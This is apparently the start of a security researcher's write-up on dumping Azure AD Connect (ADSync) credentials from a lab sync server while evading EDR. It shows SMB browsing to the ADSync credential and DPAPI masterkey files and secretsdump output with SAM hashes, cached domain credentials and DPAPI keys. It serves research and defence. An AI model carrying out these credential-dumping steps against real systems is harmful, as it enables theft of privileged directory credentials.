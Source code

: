 # Dumping ADSync Credentials (Again)

Recently, I was looking for a way to grab the on-prem hybrid ADSync credentials from an Azure sync machine without command execution on the server and skipping the EDR installed on the machine when I found that [adconnectdump](https://github.com/dirkjanm/adconnectdump) no longer worked.

## Descent into madness

The credential location was still the same path:
```powershell
\\192.168.188.129\C$\Windows\ServiceProfiles\]> ls
d-------     0.00 B  2025-06-02 16:33  .\
d-------     0.00 B  2025-06-02 15:56  ..\
d-------     0.00 B  2025-06-03 14:11  ADSync\
d-------     0.00 B  2025-06-03 14:11  LocalService\
d-------     0.00 B  2025-06-03 14:11  NetworkService\
\\192.168.188.129\C$\Windows\ServiceProfiles\]> cd ADSync\AppData\Local\Microsoft\Credentials
\\192.168.188.129\C$\Windows\ServiceProfiles\ADSync\AppData\Local\Microsoft\Credentials\]> ls
d-----s-     0.00 B  2025-06-02 16:34  .\
d-------     0.00 B  2025-06-02 16:34  ..\
-a-h--s-    1.06 kB  2025-06-02 16:34  A879CB98E05B516120073F8225D76BD5
```


The masterkey was also still in the same location:

```powershell
\\192.168.188.129\C$\Windows\ServiceProfiles\ADSync\AppData\Roaming\Microsoft\Protect\S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451\]> ls
d-----s-     0.00 B  2025-06-02 16:33  .\
d-----s-     0.00 B  2025-06-02 16:33  ..\
-a-h--s-   468.00 B  2025-06-02 16:33  00b1dc71-269c-4b1e-abf3-555e5295beeb
-a-h--s-    24.00 B  2025-06-02 16:33  Preferred
```

So, I dumped the DPAPI keys after pulling the standard registry hives:


```powershell
PS > secretsdump.py -sam output/SAM -system output/SYSTEM -security output/SECURITY LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x636c03bb289b1b6fe2d053b531c85c72
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e23688d29a7820574bb3f1682d4ca2b8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2e81af43a22c7302f796b68868e150a0:::
[*] Dumping cached domain logon information (domain/username:hash)
AZLAB.LOCAL/Administrator:$DCC2$10240#Administrator#87646b3854c3d6fac2d1f42d70b71e16: (2025-06-03 13:45:33)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:6e004d0057003c00330...
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:939cff25ca4fd69a2dfb41c930b21479
[*] DPAPI_SYSTEM
dpapi_machinekey:0x62becb76efb375641fa0586e4fc74c8761298939
dpapi_userkey:0x6e3073ccfbc96e764531abd57afec2b64188b453
```
